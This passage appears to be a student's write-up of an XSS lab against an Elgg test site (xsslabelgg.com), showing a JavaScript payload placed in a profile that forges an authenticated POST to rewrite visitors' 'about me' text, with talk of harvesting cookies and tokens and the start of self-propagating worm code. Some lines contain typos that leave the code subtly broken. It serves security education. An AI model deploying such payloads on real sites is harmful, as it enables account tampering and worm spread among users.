 The objective is to write a javascript code in the ‘about me’ section of `user11` such that when someone visits the profile of `user11`, the status as required by `user11` which is also set on his own account will be set on the account of the one who visits `user11`‘s page. The javascript code must contain the post request required to proceed with the changing of the text in the ’about me’ section. The code is as follows -

```html
<script type="text/javascript">
var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;
ff=new XMLHttpRequest();
ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
ff.setRequestHeader("Keep-Alive","300");
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie",document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
ff.setRequestHeader("Referer","http://www.xsslabelgg.com/profile/"+elgg.session.user["username"]+"/edit");
params="__elgg_ts="+ts+"&__elgg_token="+token+"&description=User-11-is-great"+
"&name="+elgg.session.user["username"]+"&accesslevel[description]=2&guid="+elgg.session.user["guid"];
ff.send(params);
</script>
```

The above code will first change the `user11`‘s ’about me’ portion to “User-11-is-great”. Therefore, this will not affect others who view this profile. However, considering we have access to the server (the server has been hacked in our favor), then this script can be embedded in the server website hosting folder, from where it can be sourced like the image format to obtain the cookie and tokens. This way when any user visits the infected profile, the script will get loaded due to the image format js code in the infected profile. Also, this method can be used to change the contents of a user by forming a request using python or any other programming language (assuming the authentication parameters are already with the attacker). The best possible attack for a web app like this one which is vulnerable to XSS is using a proper worm i.e., self propagating worm.

## Task 6 : Creating a self propagating worm

The parts of adding the attacker as a friend as well as posting on the victim’s account, without the victim’s consent can be combined into one javascript code and then made self propagating.

The process of self propagating sees the following approach - The code will have to be replicated by the code itself. This can be done by using the POST method as described in Task 5. The method to do the following is -

```html
<script id="daut" type="text/javascript">
var replicate="<script id=\"daut\" type=\"text/javascript\">".concat(document.getElementByID("daut").innerHTML)
.concat("</").concat("script>");
...............
</script>
```
